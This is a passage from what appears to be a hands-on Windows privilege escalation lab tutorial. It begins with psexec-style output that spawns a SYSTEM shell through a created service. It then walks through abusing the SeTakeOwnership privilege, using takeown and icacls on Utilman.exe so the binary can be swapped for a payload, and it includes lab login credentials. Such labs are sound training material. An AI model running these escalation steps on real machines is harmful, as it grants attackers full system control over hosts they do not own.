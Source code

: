 `[*] Requesting shares on 10.10.175.90.....`\
`[*] Found writable share ADMIN$`\
`[*] Uploading file nfhtabqO.exe`\
`[*] Opening SVCManager on 10.10.175.90.....`\
`[*] Creating service RoLE on 10.10.175.90.....`\
`[*] Starting service RoLE.....`\
`[!] Press help for extra shell commands`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32> whoami`\
`nt authority\system`

### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.\
Log in to the target machine via RDP using the following credentials:\
**User:** `THMTakeOwnership`\
**Password:** `TheWorldIsMine2022`\
To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:\


Once on the command prompt, we can check our privileges with the following command:\
Command Prompt\
`C:\> whoami /priv`

`PRIVILEGES INFORMATION`\
`----------------------`

`Privilege Name Description State`\
`============================= ======================================== ========`\
`SeTakeOwnershipPrivilege Take ownership of files or other objects Disabled`\
`SeChangeNotifyPrivilege Bypass traverse checking Enabled`\
`SeIncreaseWorkingSetPrivilege Increase a process working set Disabled`

We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:\


Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.\
To replace utilman, we will start by taking ownership of it with the following command:\
Command Prompt\
`C:\> takeown /f C:\Windows\System32\Utilman.exe`

`SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".`

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:\
Command Prompt\
`C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`\
`processed file: Utilman.exe`\
`Successfully processed 1 files; Failed processing 0 files`
